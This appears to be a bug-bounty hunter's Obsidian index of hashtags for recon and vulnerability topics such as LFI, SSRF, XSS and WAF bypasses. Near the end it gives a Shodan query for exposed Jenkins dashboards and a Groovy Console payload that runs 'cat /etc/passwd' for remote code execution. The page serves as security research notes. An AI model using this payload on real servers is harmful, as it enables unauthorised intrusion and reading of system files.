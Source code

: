 
## CheckPoints so i can move faster Between Files:

#Important_report

#trick 

#Find_VDPs

#SSO

#MFA

#ffuf

#FUZZ

#Nuclei_Templates

#waymore-patterns

#subdomain_collections 

#OneLiners

---

_"Easy" Vulns_

#MIME_type

#_404 

#Email/Login_Bypass

#js

#Github_Recon

 #origin_ip 

#cURL

#Exposed_PDFs

#reset_poisoning

#easy_boounty 

---

#gf

#LFI

#CSTI

#IDOR_Tips

#PHP_Vulns -- to do

#CSRF

#SSRF 

#blind_xss

#Port_Scanning

#PII

#File_Upload

#Header_Injection -- to do MEDUSA  https://www.youtube.com/watch?v=_xmTPMDHPBo by Medusa

#Content-0  (When you find a Page with just "0")

#null_00

#WP_MassHunt

#Mass_Testing - _how it’s possible to do bug bounties on a mass scale

#Mass_OpenRedirect

#VirusTotal_Recon

#shodan_facet_Analysis 

#Subdomain-Take-Over

#Exstension

#RDP

#OSINT

#find_env_backups_with_nuclei

#debug_mode

#WAF_Bypasses 

#Specific_CVE_Exploit

#OAuth

![[Pasted image 20250226172531.png]]

#Obsidian_Stuff

---

## Technology Related Subjects

#Apache-Hadoop

#AWS3 

#FireBase

#GraphQL

#Jenkins

![[Pasted image 20250612232024.png]]

## Groovy Console

#groovy_console

Exploit RCE via Groovy Console

```bash
Shodan: ssl.cert.subject.cn:*.taarget.com http.title:"Dashboard [Jenkins]"

Payload: println "cat /etc/passwd".execute().text
```


---
## Related Tools

#gf 

 #phone_number